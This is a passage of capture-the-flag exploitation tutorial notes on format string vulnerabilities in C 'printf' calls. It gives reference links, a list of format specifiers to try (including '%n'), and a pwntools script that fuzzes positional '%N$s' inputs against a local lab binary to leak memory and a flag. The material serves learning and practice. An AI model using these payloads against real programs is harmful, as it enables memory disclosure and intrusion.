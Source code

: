       # Get flag/shell
      io.interactive()
      ```

## ==================================================================

## (7) Format String Vulnerabilities (printf)
Files: https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101/07-format_string_vulns

+ Pwntools Format String Exploiter: https://docs.pwntools.com/en/stable/fmtstr.html
+ Additional References: 
 - https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/
 - https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
 - https://axcheron.github.io/exploit-101-format-strings/

   1. Look at _source code_ and see the `printf(buf);`
     + It's taking arbitrary user input and _feeding it to `printf`_
   
   2. Run the binary and try format string input
      (`%p`/`%u`/`$x`/`%lx`/`%llx`/`%s`/`%10$x`/`%n`)
      to get a format string attack
   
### 3. Fuzz the String Format Issue 
    ```
    from pwn import *

    # This will automatically get context arch, bits, os etc
    elf = context.binary = ELF('./format_vuln', checksec=False)
    
    # Let's fuzz 100 values
    for i in range(100):
        try:
            # Create process (level used to reduce noise)
            p = process(level='error')
            # When we see the user prompt '>', format the counter
            # e.g. %2$s will attempt to print second pointer as string
            p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
            # Receive the response
            result = p.recvuntil(b'> ')
            # Check for flag
            # if("flag" in str(result).lower()):
            print(str(i) + ': ' + str(result))
            # Exit the process
            p.close()
        except EOFError:
            pass
